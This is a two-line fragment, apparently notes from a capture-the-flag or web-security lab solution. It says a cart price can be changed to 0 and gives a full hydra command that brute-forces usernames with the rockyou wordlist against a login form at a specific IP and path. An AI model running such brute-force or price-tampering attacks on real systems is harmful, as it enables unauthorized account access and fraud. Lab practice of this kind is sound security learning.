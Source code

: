 1: can change the cost on the cart screen to 0.
2: accessing admin
`hydra -L rockyou.txt -p aaa 34.94.3.143 http-post-form "/961958f2a6/login:username^USER^&password=^PASS^:Incorrect username"`